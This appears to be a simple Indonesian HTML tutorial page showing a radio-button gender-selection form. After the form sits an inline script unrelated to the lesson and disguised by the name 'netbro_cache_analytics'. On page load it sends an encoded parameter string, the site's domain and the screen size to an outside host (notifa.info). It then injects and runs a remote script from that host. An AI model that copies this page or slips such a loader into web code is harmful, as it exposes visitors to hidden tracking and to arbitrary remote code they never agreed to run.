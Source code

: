 # a710160086.github.io
<html>
<head><title>Belajar HTML Membuat Radio Button</title></head>
<body>
<h1>Pilih Jenis Kelamin</h1>
<form method="post" action="#">
<input type="radio" name="jk" value="Laki"/>Laki-laki<br/>
<input type="radio" name="jk" value="Perempuan"/>Perempuan<br/>
<input type="radio" name="jk" value="Lainnya"/>Lainnya<br/>
<br/>
<input type="submit" name="submit" value="Kirim"/>
</form>
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "¶ms=" + "4TtHaUQnUEiP6K%2fc5C582PbDUVNc7V%2bd4fPLltWcVcWRzWeY5LYrPElGF9uJxpbwW6Ujski%2bqumAwj8Ned0FTRWS%2fZGl3R%2fNyBE395wxM5dKBhuui0XQM1uKZoffKlJk2VmZBNrxrEnoalJSwbO9iWHCO%2fAFwtW%2bhG%2bU8Ga12n7gxrKtzCFD5Tm6wk4bEiijopH4MKxvIUTmwf28BlEJbKjOOJ207EnTa6jqx7jdRP5wcZOtLKUtvf3FmTDipWJSWhmBu8i3koda7Et79sLNyqpXYCAT4BUSU80jsOwfmRQEHDsqjqxej5kmK%2b0SJ51Ofv8KU85eLlXOYukYDJc8WgeI6X1LormRtLcPrmexopL3n8jZxSHcpE91AJqzADc1MkXXS1um0zsrZxLR4AM5blkXhVpZQSBPAcB8eUqeCSSmeAPH01osMHaC58KwYlBA4rbdebjHPE40R4aOHwxB0gJt6xMwTCQmptzRouSPCk%2f1pEoJa6MlzrC4bP%2f%2bFc8oQsbNb8qHqRjn%2buzz4hFKVzuMytH7VgRXLEkG6i8wR4zWWySKZGTc%2bhRZehUkuBgyU0u719wLBaBW5L2KDDADMH%2fT%2f%2baKC2tjaVl9HF5f57YHshgBbJGiDXulTQZyUNyAT4D62G7Yh3DT5Z0ErImLWhEkNMMZpl0n" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
</html>
